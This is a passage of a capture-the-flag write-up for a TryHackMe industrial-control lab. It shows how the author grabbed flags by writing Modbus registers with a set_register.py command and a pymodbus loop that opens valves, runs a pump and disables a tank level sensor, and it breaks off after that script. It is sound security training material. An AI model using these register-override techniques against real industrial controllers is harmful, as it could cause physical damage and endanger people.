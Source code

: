 - Let that run for 60 seconds:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Attacking-ICS-Plant-2/images/a4.png)

- Get the flag!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# curl http://$RHOSTS/flag1.txt
{Redacted}
```

## Task 3 - Flag #2

```
Let the oil flow through the waste water valve only. Wait until the counter reaches 2000. Then connect and get the flag2: [http://MACHINE_IP/flag2.txt.

Mind that the simulation should be reset before starting by pressing the ESC button. If the flag cannot be obtained, try to reset the room and start the attack again.
```

**Now, we know the `Feed Pump` and `Tank Level Sensor` is using which register, but we don't know the rest.**

**To figure out the `Outlet Valve`, `Separator Vessel Valve` and `Waste Water Valve`, I'll:**

According to my observation, it seems like the **third one is the `Outlet Valve` register (0 = stop, 1 = open),** the **sixth one is the `Separator Vessel Valve` register(0 = open, 1 = close)**, the **seventh one is the amount of drops that went through the `Waste Water Valve`.**

**Armed with this information, we can obtain the flag in 2 ways:**

### 1. Easier way

- Set the seventh register to > 2000:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# python3 set_register.py $RHOSTS 7 2001
```

- Get the flag!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# curl http://$RHOSTS/flag2.txt
{Redacted}
```

### 2. Hard way

- Set the first, third, seventh register to 1, the second register set to 0:

```py
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(1, 1)  # Open Feed Pump
  client.write_register(2, 0)  # Turn off Tank Level Sensor
  client.write_register(3, 1)  # Open Outlet Valve
  client.write_register(7, 1)  # Close Seperator Vessel Valve
```
